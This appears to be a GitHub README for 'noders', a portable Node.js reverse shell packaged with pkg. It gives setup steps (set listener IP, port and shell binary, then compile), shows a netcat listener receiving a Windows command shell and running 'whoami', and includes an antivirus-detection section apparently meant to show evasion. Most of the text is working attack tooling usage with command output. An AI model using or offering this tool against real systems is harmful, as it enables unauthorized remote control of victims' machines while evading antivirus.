 # noders

portable node.js secure reverse shell using https://github.com/zeit/pkg 

**Usage**

- Update noders.js or noderss.js source listener ip,port, binary (cmd.exe, /bin/sh, etc), ca public key.
- Compile using pkg to target platform https://github.com/zeit/pkg#targets

Setup
```
root@kali:/opt/noders# npm install -g pkg
root@kali:/opt/noders# pkg -t win noders.js
> pkg@4.4.0
> Fetching base Node.js binaries to PKG_CACHE_PATH
  fetched-v10.15.3-win-x64     [====================] 100%
  fetched-v10.15.3-linux-x64   [====================] 100%
root@kali:/opt/noders# ls
noders.exe  noders.js
```
Listener
```
root@kali:~# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.173] 50053
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Desktop>whoami
whoami
msedgewin10\ieuser

```

**AV Detection**

<img width="1317" alt="Screenshot 2019-11-23 at 21 30 06 2" src="https://user-images.githubusercontent.com/56988989/69485670-9e015180-0e3a-11ea-95c4-5a9b2dd88f24.png">

**Limitations**

Portable binary size is at least 30MB. 

